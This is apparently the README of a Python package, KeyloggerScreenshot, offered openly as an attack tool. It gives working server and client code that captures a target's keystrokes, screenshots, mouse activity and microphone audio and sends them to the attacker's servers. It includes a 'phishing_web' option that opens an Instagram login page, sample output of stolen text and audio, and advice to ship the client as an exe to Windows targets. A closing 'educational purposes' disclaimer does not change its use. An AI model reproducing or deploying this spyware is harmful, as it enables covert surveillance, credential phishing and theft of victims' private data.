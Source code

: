 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. You can open a link when the keylogger is executed. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my github (easier way):

https://github.com/Kill0geR/KeyloggerScreenshot

GITHUB-VERSION (SNEAK PEAK):

![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)

SHOUT OUT TO:
-------------
name: dyma020

link to his insta: https://www.instagram.com/dyma020/

He had the idea of the mouse information. He also build the graphical user interface. Big thanks to him

HOW DOES KeyloggerScreenshot WORK?
==================================

To install KeyloggerScreenshot simply write:

`pip install KeyloggerScreenshot`

in your terminal

After that create a server:

Server
------

````python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()




````

Then create the client

Client
------

````python
#client_target.py
import KeyloggerScreenshot as ks
import threading

thread_deleter = threading.Thread(target=ks.Local_Deleter.DeleteList.start)
thread_deleter.start()

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60, phishing_web="https://www.instagram.com/accounts/login/?__coig_restricted=1") # You can open a link when the keylogger starts
key_client.start()
````

You can specify the time of running in secunds in the "duration_in_seconds" variable

Essential Informations:
------------

* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

* If you want a cool simulation you can specify that in ServerKeylogger by setting the Parameter simulater to True

* You can open a link that you can choose when the keylogger is executed. Set the Parameter "phishing_web" to your link

* If you really want to send this to work externally, you have to buy a server and download the code on my github.

* If backspace is pressed the last pressed character will be deleted from the list

Output
------
```python
"""
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established ![img_2.png](img_2.png)with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...

"""
```

Directory of Attacker
---------------------
![img](https://user-images.githubusercontent.com/106278241/218315115-5c84c74e-bb59-4c55-aa26-e9d726d8fa44.png)

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The ideal target should use Windows as his OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. THIS WAS BUILD FOR EDUCATIONAL PURPOSES.
